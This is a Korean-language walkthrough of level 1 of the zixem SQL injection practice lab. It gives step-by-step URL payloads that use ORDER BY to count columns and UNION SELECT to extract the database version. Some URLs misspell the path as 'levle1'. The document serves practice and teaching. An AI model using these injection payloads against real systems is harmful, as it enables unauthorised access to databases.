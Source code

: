 # <p align="center">💉level 1</p>
> -문제 풀이
>> - 문제 조건
>> 1. zixem은 내가 원하는 데이터를 띄우는게 목적이다.
>> ##### ㅤㅤㅤ※우리가 원하는 데이터는 SQL의 버전으로 하겠다. 
>
>> - 문제 풀이
>> 1. 일단 sqli가 되는 환경인지 알아보기 위해 에러 유발인자를 넣어본다.
>> 2. sqli가 되는 환경인걸 확인했으면 order by를 사용해 컬럼의 갯수 확인<br/>
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1 order by 1-- (O)<br/>
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1 order by 5-- (X)<br/>
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1 order by 3-- (O)<br/>
>> 3. 컬럼 갯수가 확인이 됐으면 컬럼마다 값을 하나씩 넣어본다.
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1 union select 1,2,3--
>> 4. 안될거다. 왜냐하면 임의로 값을 넣는 작업은 엄연히 문제가 생기기 때문에<br/>
>>사이트에서 원래 나올 정상값을 위에 덮어서 보여준다 따라서 에러를 일으켜 벗겨낸다.
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1234 union select 1,2,3--
>> 5. 화면에 나오는 넣은 값의 위치를 확인하고 우리가 원하는 값을 입력한다.
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1234 union select version(),2,3--